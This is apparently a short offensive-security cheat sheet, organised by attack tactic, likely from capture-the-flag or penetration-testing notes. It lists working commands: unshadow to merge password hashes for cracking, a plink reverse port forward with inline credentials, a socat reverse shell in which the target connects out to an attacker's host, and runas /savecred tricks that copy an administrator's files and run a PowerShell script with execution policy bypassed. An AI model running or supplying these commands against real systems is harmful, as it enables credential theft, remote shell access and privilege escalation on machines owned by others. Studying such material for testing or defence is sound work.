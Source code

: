 # unshadow
- service: sam
- tactics: credential_access

## unshadow /etc/passwd file
- `unshadow shadow passwd > unshadow.db`

---

# plink.exe
- service: all
- tactics: lateral_movement

## Port forward using plink
- `plink.exe -l username -pw password target-ip -R 8080:127.0.0.1:8080`

---

# socat
- serivce: all
- tactics: command_and_control

# reverse_shell
## attacker
- ``socat file:`tty`,raw,echo=0 tcp-listen:12345``

## target:
- `socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:attacker-ip:12345"`

---

# runas
- serivce: windows
- tactics: privilege_escalation

## privileged file copy
- `runas /user:hostname\Administrator /savecred "cmd.exe /c type c:\users\administrator\desktop\root.txt > C:\Users\security\AppData\Local\Temp\root.txt"`

## privileged powershell execution
- `runas /user:hostname\Administrator /savecred "powershell -ExecutionPolicy Bypass -File C:\Users\security\AppData\Local\Temp\boom.ps1"`
